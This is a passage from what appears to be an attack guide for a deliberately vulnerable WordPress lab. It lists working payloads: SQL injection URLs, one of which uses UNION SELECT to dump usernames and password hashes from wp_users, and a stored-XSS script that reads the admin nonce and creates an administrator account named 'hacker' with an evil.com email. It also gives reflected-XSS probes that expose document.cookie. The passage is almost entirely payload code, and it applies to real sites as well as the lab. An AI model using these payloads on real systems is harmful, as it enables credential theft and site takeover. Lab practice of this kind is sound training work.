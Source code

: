 ### 6. SQL Injection

#### Plugin SQLi
```bash
# In vulnerable plugin parameter
http://localhost:8087/wp-content/plugins/vulnerable/search.php?id=1' OR '1'='1

# Extract data
http://localhost:8087/wp-content/plugins/vulnerable/search.php?id=1' UNION SELECT user_login,user_pass FROM wp_users--
```

#### Search SQLi
```bash
# WordPress search
http://localhost:8087/?s=test%' UNION SELECT 1,2,3,4,5--
```

### 7. Cross-Site Scripting (XSS)

#### Stored XSS in Comments
```html
<!-- Post comment -->
<script>
fetch('/wp-admin/user-new.php')
  .then(r => r.text())
  .then(html => {
    const nonce = html.match(/name="_wpnonce_create-user" value="([^"]+)"/)[1];
    fetch('/wp-admin/user-new.php', {
      method: 'POST',
      credentials: 'include',
      body: new URLSearchParams({
        'user_login': 'hacker',
        'email': 'hacker@evil.com',
        'pass1': 'hacked123',
        'pass2': 'hacked123',
        'role': 'administrator',
        '_wpnonce_create-user': nonce,
        'action': 'createuser'
      })
    });
  });
</script>
```

#### Reflected XSS
```bash
# In search
http://localhost:8087/?s=<script>alert(document.cookie)</script>

# In plugin parameters
http://localhost:8087/wp-content/plugins/vulnerable/page.php?msg=<script>alert(1)</script>
```

